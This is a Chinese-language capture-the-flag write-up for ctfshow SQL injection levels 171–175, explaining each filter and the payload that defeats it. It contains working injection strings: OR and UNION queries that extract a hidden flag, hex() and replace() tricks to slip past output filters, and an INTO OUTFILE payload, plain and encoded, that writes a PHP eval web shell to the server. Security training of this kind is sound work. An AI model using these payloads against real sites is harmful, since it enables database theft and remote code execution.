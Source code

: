 #### 171

题目提示：

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

`$_GET['id']` 是从用户的 GET 请求中获取的值，未进行过滤，知道注入点为id处。

复制语句到navicat中创建的本地数据库中尝试，语句改为

```
select username,password from user where username !='flag' and id = '1' or id = '3' limit 1;
```

显示了id = 1的内容

若改成

```
select username,password from user where username !='flag' and id = '888' or id = '3' limit 1;
```

则会显示id = 3的内容（or语句）。

题目中id只有24行，猜测flag是否在第25行未显示

于是可以在题目id处输入 `999' or id = '25`未显示flag

输入`999 'or id = '26`得到flag



#### 172

本题与上一题类似，但题目显示

```
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

表示如果 `$row` (**查询内容**）对象中的 `username` 属性的值不等于 `'flag'` ，就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'`

则查询内容中，应只查询password而不查询username。此处引入**联合查询**（就是union语句）。

id查询处输入

```
999' union select id,password from ctfshow_user2 where username = 'flag
```

即可。



#### 173

本题题目显示

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码使用 `preg_match` 函数在 `json_encode($ret)` （**返回值**)的结果中搜索 `'flag'` （不区分大小写）。

如果没有匹配到，就设置 `$ret['msg'] = '查询成功'`

此处可以使用`hex()`函数对username进行转换,将其转化为16进制（也可以使用to_base64()函数将其转化为base64编码）

在id查询处输入

```
999' union select id,hex(username),password from ctfshow_user3 where username = 'flag
```

即可得到flag



#### 174

本题有点像特意出的考点

返回逻辑是

```
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码的作用是：如果经过 `json_encode` 编码后的 `$ret` 中不包含 `'flag'` （不区分大小写）以及任何数字（0 到 9），就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'` 。

此处可以使用`replace()`将结果中的数字替换为数字键上方的符号，具体语句为：

```
` unionselect'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,0,'g'),1,'h'),2,'i'),3,'j'),4,'k'),5,'l'),6,'m'),7,'n'),8,'o'),9,'p') from ctfshow_user4 -- qwe
```

得到被转化后的flag

可以使用脚本对其进行转化：

```
flag = flag = 'ctfshow{bokglnof-lfle-knag-pnlk-bbibdmkpjmdb}'
for i in range(10):
    flag = flag.replace(chr(ord(str(i)) + 55),str(i))
    print(str(i),chr(ord(str(i)) + 55))
    print(flag)
```



#### 175

返回逻辑是

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

`/[\x00-\x7f]/i` 匹配的是 ASCII 字符范围内的字符（包括控制字符），不区分大小写。

[x00-x7f] 匹配ASCII值从0-127的字符
0-127表示单字节字符：数字，英文字符，半角符号，以及某些控制字符。
也就说，是以上字符的不会在页面显示出来。
那我们换个思路，不让在页面显示，写在某个文件里，然后查看文件内容。

此处直接写解题过程：

写入

```
999' union select 1,"<?php @eval($_POST['CMD']);?>" into outfile 'var/www/html/1.php
```

发现回显错误

于是将`<?php eval($_POST[1]);?>`在bp中先进行base64编码，后将其base64编码再进行URL编码，放回原句：

```
99' union select 1,from_base64(%50%44%39%77%61%48%41%67%51%47%56%32%59%57%77%6f%4a%46%39%51%54%31%4e%55%57%79%64%44%54%55%51%6e%58%53%6b%37%50%7a%34%3d) into outfile 'var/www/html/1.php
```

并用bp进行抓包重发，然后在url后输入`/1.php`检验是否成功，再在hackbar中使用post请求输入`1=phpinfo()`发现可以显示

然后用蚁剑进行连接，连接成功后右键进行数据操作，数据类型为`MYSQLI`,用户和密码皆为`root`。

即可找到flag。



